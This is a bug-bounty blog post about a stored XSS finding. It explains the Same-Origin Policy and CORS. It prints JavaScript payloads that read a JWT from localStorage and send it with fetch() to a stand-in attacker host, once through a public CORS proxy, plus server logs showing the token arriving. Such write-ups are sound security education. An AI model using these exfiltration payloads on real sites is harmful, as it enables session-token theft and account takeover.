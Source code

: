 ```yaml
---
layout: post
title: "On SOP, CORS, and the Hows of Exfiltrating JWTs via XSS"
author: "BoT"
tags: "bugbounty"
excerpt_separator: <!--more-->
---
```


In order words: how to not get c\*\*k-blocked by CORS.

<!--more-->

## Background

I recently found a stored Cross-site Scripting (XSS) vulnerability while hunting at a target.

While the bug class itself is not particularly spectacular, what interested me was on _what_ I could do with it.

Showing an alert popup is fine and all, but impact of that level would likely only net me a `Medium` in severity at HackerOne. To justify for anything higher, I have to get creative on showing its potential disastrous impact.

Given that this is a stored XSS, I thought to myself:

> What if I demonstrate that an attacker can essentially harvest credentials from any authenticated user who browses the affected page? In that case, mass account takeovers would be trivial!

An idea worth trying out, especially since the application stores the value of its JWT in the browser's `localStorage` as `token`.

I can simply swap out the typical payload of `alert(document.domain)` with one that retrieves the token and makes a GET request to a server under my control.

Just like this; and that should be it... right?

```javascript
fetch("https://attacker.com:8000/jwt=" + JSON.stringify(localStorage.getItem("token")));
```

Nope-- what greeted me was this sad little error message in the console instead:

> Access to fetch at 'https://attacker.com:8000/?jwt=xxx' from origin 'https://example.redacted.com' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource.
>
> If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.

Very sad indeed.

## What in the world is CORS???

Now, before we go into that, let's first understand what is **Same-Origin Policy** (SOP).

Long story short, SOP prevents one origin from accessing resources of another origin.

Origin here is defined as `protocol://hostname:port`. In other words, in order for one origin to be considered the same as another origin, the values of these three variables must be _exactly_ the same.

Let's take `https://example.com/latest` as an example:

- `http://example.com/myinfo` is allowed because they are of the same origin
- `http://example.com/users.json` is blocked because they are of different protocol and port
- `https://api.example.com/info` is blocked because they are of different domain
- `https://example.com:8443/files` is blocked because they are of different port

One might say:

> But `img` tag can still load images despite not being the same origin!

That is correct -- because SOP only prevents browser's JavaScript engine from reading the contents of a response, it _does_ allow the resource to be loaded onto the DOM of the page.

To reiterate, the purpose of SOP is not to prevent request for a resources from being sent. In fact, in the prior example, all of the requests would be sent, it is just that `https://example.com/latest` wouldn't be able to read the response of those marked as blocked.

With the rise of micro-services, strict SOP policies like these are just too stifling for developers, which leads us to **Cross-Origin Policy** (CORS).

Simply put, CORS helps to relax these restrictions by instructing the browser on which origin are allowed to access their resources via headers.

The most common CORS-related headers are:

- `Access-Control-Allow-Origin` that specifies which origin can access the response
- `Access-Control-Allow-Credentials` that indicates if the request can include cookies
- `Access-Control-Expose-Headers` that instructs the browser to expose certain headers to JavaScript

If resources from `https://example.com/` were to be successfully loaded by `https://api.example.com/`, the response of the latter must have the following CORS header:

```
Access-Control-Allow-Origin: https://example.com
```

And this is why we had our little error: our `https://attacker.com/` doesn't return the necessary CORS header to allow our XSS payload to do its magic.

## Fixing the Errors...

> Wait a sec-- didn't you say that requests would still be sent? You should be able to see the incoming request which would have the JWT you sent!

Well, yes.

The request was indeed sent, but that didn't mean the delivered content was legible from the web server. In fact, it was a bunch of truly horrible-looking `400 Bad Request` errors.

```bash
bot@bucketoftears:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
██████████ -- [16/Mar/2023 12:57:58] code 400, message Bad request version ('ô<\x00"\x13\x01\x13\x03\x13\x02À+À/Ì©Ì¨À,À0À')
██████████ -- [16/Mar/2023 12:57:58] "ü_ÆoTmç¸Æ<&°ø`«6ß¸ÍòëH ¹3E&z×vø¾ú®^umrÒ}³J  ô<"À+À/Ì©Ì¨À,À0À" 400 -
██████████ -- [16/Mar/2023 12:57:58] code 400, message Bad request version ('}Å|\x00"\x13\x01\x13\x03\x13\x02À+À/Ì©Ì¨À,À0À')
██████████ -- [16/Mar/2023 12:57:58] "ü0!>Êó*!SEu´cj<ºaaÅ3ãqH· â3qøÂµßS02§[¾(dà¥ÃGz|_t}Å|"À+À/Ì©Ì¨À,À0À" 400 -
```

No amount of Googling had enlightened me on what-the-loving-fuck is happening here (probably something to do with that missing CORS header), so I moved on to my next brilliant idea -- using CORS proxies!

A CORS proxy essentially acts as an intermediary that helpfully adds the required `Access-Control-Allow-Origin` header. It's easy -- doesn't require server setups of any kind -- and already has many instances online for immediate use (e.g. `CORS Anywhere`, `alloworigin`).

One just needs to prefix the chosen proxy's URL to `https://attacker.com` and the proxy in question will:

1. Forward the request to `https://attacker.com`
2. Add the `Access-Control-Allow-Origin` header to the response from `https://attacker.com`
3. Passes that response, with that added header, back to the requesting `https://attacker.com`

Sounds simple!

Now, let's try this out on the XSS payload...

```javascript
fetch(
  "https://api.allorigins.win/get?url=https://attacker.com:8000/jwt=" +
    JSON.stringify(localStorage.getItem("token"))
);
```

... voilà, the JWT we are looking for on our web server!

```bash
bot@bucketoftears:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
██████████ - - [16/Mar/2023 13:34:48] code 404, message File not found
██████████ - - [16/Mar/2023 13:34:48] "GET /%22eyJ0eXAiOiJKV1Q█████████.eyJhdWQiOiJiMjg█████████.Vnm3IUUeydxCItX█████████%22 HTTP/1.1" 404 -
```

## Conclusion

Ultimately, this vulnerability was triaged as `Medium` in severity. While disappointing, it was a good revision of the SOP and CORS concepts. In my opinion, it was a net gain.

Funny enough, it wasn't until everything was said and done that I realized scripts like [khalidx/simple_http_server_cors.py](https://gist.github.com/khalidx/6d6ebcd66b6775dae41477cffaa601e5) exist. Instead of resolving the CORS error in such a roundabout way, I could have just leached onto open-source tools that were already available.

Oh well.

## References

- My very expensive OSWE course-book 🙃
- [StackOverflow - Trying to use fetch and pass in mode: no-cors](https://stackoverflow.com/questions/43262121/trying-to-use-fetch-and-pass-in-mode-no-cors)
